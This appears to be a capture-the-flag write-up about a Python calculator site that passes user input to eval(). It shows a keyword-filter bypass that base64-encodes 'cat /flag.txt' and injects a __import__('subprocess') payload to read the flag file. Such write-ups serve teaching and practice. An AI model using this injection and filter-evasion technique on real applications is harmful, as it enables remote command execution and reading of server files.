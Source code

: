 # Overview 
This is a bank website which allow user to enter the number and let the software do the calculation
<img width="619" height="158" alt="Screenshot_2025-09-20_19-17-37" src="https://github.com/user-attachments/assets/f03721df-4423-4a73-9f6f-c0361beef260" />

# Eval

what is `eval()`? According to my knowledge, `eval()` is a function that allow you to convert tpying input to command

# So what is the code that created this software ?
At first, I assumed that it would probably python due to this evidence below
<img width="669" height="243" alt="Screenshot_2025-09-20_19-16-51" src="https://github.com/user-attachments/assets/008b600c-19b7-4298-b00b-8119a85dd230" />

After having a look at the page source, I can assure that it is python
<img width="866" height="115" alt="Screenshot_2025-09-20_19-15-52" src="https://github.com/user-attachments/assets/1f45c9f1-b642-4bc2-bbc4-8e19af4acf6c" />

However, there are some keywords which are restricted in this site like os, ls, cat, etc. So there would be two step for getting this flag

# 1. Encode the command to bypass the filter
```
echo "cat /flag.txt" | base64
Y2F0IC9mbGFnLnR4dAo=
```
By coverting normal command into encoded string, then later decoding by abusing `eval()` function

# 2. Crafting the payload and execute
Because the software restrict the `import` keyword which means I have to use like an extended version of that code
```
__import__("subprocess").getoutput(__import__("base64").b64decode('Y2F0IC9mbGFnLnR4dAo='))
```
Inject this command and boom!! I got the flag.
